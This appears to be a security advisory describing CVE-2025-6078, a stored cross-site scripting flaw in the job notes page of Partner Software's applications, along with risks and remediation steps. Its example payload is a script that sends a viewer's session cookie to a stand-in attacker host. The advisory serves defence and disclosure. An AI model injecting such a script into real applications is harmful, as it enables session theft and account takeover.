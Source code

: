 ## Critical Stored XSS Vulnerability Discovered in Partner Software Applications

A significant security flaw has been identified in **Partner Software's Partner Software application** and **Partner Web application**, posing a direct threat to your organization's data security and operational integrity. This vulnerability could lead to unauthorized access, sensitive data compromise, and potential system disruption, impacting your bottom line and reputation.

### Vulnerability Details

*   **CVE ID:** **CVE-2025-6078**
*   **Affected Software:** **Partner Software application** and **Partner Web application**
*   **Affected Versions:** Specific affected versions were not detailed in the initial disclosure; users are advised to consult the official advisory for precise version information.
*   **Technical Cause:** The vulnerability, classified as **Stored Cross-Site Scripting (XSS)**, stems from insufficient input sanitization. An authenticated user can add notes on the 'Notes' page when viewing a job. However, the application fails to properly clean user-supplied input, allowing the insertion of malicious HTML tags and JavaScript code. This code is then "stored" in the application's database and executed in the browsers of other users who view the affected notes page.
*   **Example Payload:** An attacker could insert a malicious script like:
    ```html
    <script>
        // Malicious JavaScript code to steal cookies, redirect users, etc.
        fetch('https://malicious.com/log?cookie=' + document.cookie);
    </script>
    ```
    This code, when embedded within a note, would execute whenever the note is viewed by another user.

### Risk Description

Successful exploitation of this **Stored XSS** vulnerability could allow an attacker to:

*   **Steal sensitive data**: Access session cookies, enabling account takeover without needing credentials.
*   **Deface web pages**: Alter the content of the application seen by other users.
*   **Redirect users**: Force legitimate users to malicious websites.
*   **Execute arbitrary actions**: Perform actions on behalf of other users, potentially leading to data manipulation or further system compromise.
*   **Install malware**: Drive-by downloads on users' systems through crafted malicious links.

### Who is at Risk

Any organization or individual using the **Partner Software application** or **Partner Web application**, especially those instances where authenticated users are permitted to add notes on job pages, is immediately at risk.

### Recommendations

**For Developers:**

*   **Implement robust input validation:** Ensure all user-supplied input, especially in note fields, is strictly validated on the server-side to prevent the injection of HTML or script tags.
*   **Apply output encoding:** Always encode or escape user-generated content before rendering it in web pages. Use context-aware encoding specific to the output location (HTML, attribute, JavaScript, URL, etc.).
*   **Update libraries and frameworks:** Ensure all third-party libraries and frameworks are up-to-date, as they often include security fixes for common vulnerabilities.

**For Website Owners/Admins:**

*   **Update Immediately:** Monitor official announcements from Partner Software and apply any patches or updated versions as soon as they become available. This is the most crucial step.
*   **Review Access Controls:** Temporarily restrict or review permissions for users who can add notes, if an immediate patch is not available.
*   **Monitor Logs:** Increase vigilance for unusual activity, especially related to user sessions or changes in note content.
*   **Educate Users:** Remind users about phishing risks, as attackers might combine XSS with social engineering.

### Reference Link

For the latest information and official advisories, please refer to:
[Partner Software Release Information](https://partnersoftware.com/resources/software-release-info-4-32/)